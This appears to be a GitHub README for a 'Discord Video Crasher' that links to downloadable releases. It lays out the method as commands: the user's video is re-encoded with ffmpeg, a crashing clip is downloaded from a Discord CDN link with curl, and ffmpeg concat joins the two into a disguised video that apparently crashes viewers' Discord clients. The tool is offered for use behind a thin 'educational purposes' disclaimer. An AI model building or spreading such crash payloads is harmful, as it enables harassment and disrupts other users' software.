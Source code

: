 ## Discord Video Crasher

You can download the discord video crasher [here.](https://github.com/VapeLiminator/VideoCrasher/releases)



### How does it work?

It really just works very simply:

//I'm going to ignore the specifying path's and othere stuff from here

# ffmpeg -i %videoname%.mp4 "01110101-01110101-01101000-01101000-01101000.mp4" 
# curl -ko "abc.mp4" "https://cdn.discordapp.com/attachments/965003761485492314/987416285216387142/FemaleAnimatedHyrax-mobile.mp4"
##(
##echo file 01110101-01110101-01101000-01101000-01101000.mp4

##echo file abc.mp4

##)>"uwu.txt"

##ffmpeg -f concat -i uwu.txt -codec copy %crashername%.mp4

//And that's the important part! the only thing left is removing the files we've created, and it's done.

**This has been made with educational purposes, I am not in charge for what you do with this program.**

### Need help?
NeumaticYT#6969 for error's found in the program, please do not spam, thanks.

